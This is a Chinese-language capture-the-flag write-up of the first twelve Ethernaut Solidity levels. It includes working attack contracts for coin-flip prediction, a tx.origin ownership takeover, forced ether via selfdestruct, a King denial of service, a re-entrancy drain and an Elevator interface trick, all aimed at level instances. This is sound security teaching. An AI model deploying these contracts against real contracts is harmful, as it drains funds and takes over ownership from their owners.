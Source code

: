 # Writeup(31)
## 1.Hello Ethernaut

跟着返回的提示调用合约函数

![](../images/a-ethnaut-1-1.png)

## 2.Fallback
1. 调用contribute函数捐款小于0.001e的数额, getContribution函数返回值大于0
2. 发送任意数额的eth调用fallback函数, owner改为当前账户
3. 调用withdraw提取所有金额

## 3.Fallout

Fal1out并不是构造函数, 手动调用即可

注意:Solidity合约构造函数不能和合约名一样

## 4.Coin Flip
编写合约代码, 提前计算结果, 在不同的区块下调用guess函数10次
```solidity
contract Guess {
    uint256 FACTOR = 57896044618658097711785492504343953926634992332820282019728792003956564819968;
    CoinFlip x = CoinFlip(0x7B588F9C807501337AFa5AeF3945bd18FdAF9CbF);
    function guess() public {
        uint256 blockValue = uint256(blockhash(block.number - 1));
        uint256 coinFlip = blockValue / FACTOR;
        bool side = coinFlip == 1 ? true : false;
        x.flip(side);
    }
}
```
## 5.Telephone
tx.origin是交易的发起者, msg.sender是当前函数的调用者
编写hack合约, 通过合约调用changeOwner函数
```solidity
contract Hack {
    constructor() {
        Telephone t = Telephone(0x35B2bAb61Ee13B9256811B693AA054Ad1dd016Ec);
        t.changeOwner(0x3E9436324544C3735Fd1aBd932a9238d8Da6922f);
    }
}
```
## 6. Token
向任意地址发送21单位的token
```solidity
// 直接操作uint256变量减法会有溢出问题
require(balances[msg.sender] - _value >= 0);
```
## 7.Delegation
利用下面的代码完成代理调用
```solidity
(bool result,) = address(delegate).delegatecall(msg.data);
```
向Delegation合约发送0eth, tx的data部分为pwn的方法id

## 8. Force
使用selfdestruct销毁自建合约, 向目标合约发送eth
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

contract Hack {
    constructor() payable public {
        selfdestruct(0x888Eaa51Cd5E643DFc19b594DA803362c5265B7b);
    }
}
```
## 9. Vault
使用函数w3.eth.get_storage_at读取对应slot值, 获取password, 调用unlock函数解锁

## 10. King
使用合约向目标合约转0.001eth, 成为新的king, 其他人再尝试获得king会因为transfer不成功而失败
注意要使用低级调用call函数, 当调用数据为空时, 会自动调用目标合约的receive函数
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

contract Hack {
    constructor() payable public {
        (bool success, ) = 0xaD5Ae7Ec24Ae99e2971F5f0D5c21DCBe24189962.call{value:msg.value}("");
        require(success, "failed");
    }
}
```
## 11. Re-entrancy
目标合约的withdraw函数先转账再扣除余额, 引发重入攻击
攻击合约实现receive函数, 当目标合约的余额大于0时, 可以继续递归调用withdraw函数提取资金
```solidity
// 部署合约附带0.001e
contract Hack {
    Reentrance r = Reentrance(0xFAe73a7Df5253a2a8b7e32987866c2B157861371);

    constructor() payable public {
        r.donate{value: msg.value}(address(this));
    }

    function hack() public {
        r.withdraw(r.balanceOf(address(this)));
        selfdestruct(0x3E9436324544C3735Fd1aBd932a9238d8Da6922f);
    }

    receive() external payable { 
        if (address(r).balance > 0) {
            r.withdraw(r.balanceOf(address(this)));
        }
     }
}
```
## 12. Elevator
编写攻击合约, 实现isLastFloor方法, 判断Elevator合约的floor是否为目标楼层, 根据情况返回结果
```solidity
contract Hack {
    Elevator e = Elevator(0x5C77b7D11a6CeDc83D0f41D096C3E6874dF7CeF9);
    
    function hack() public  {
        e.goTo(10);
    }

    function isLastFloor(uint256 floor) external view returns (bool) {
        uint256 i = e.floor();
        if (i == floor) return true;
        else return false;
    }

}
```
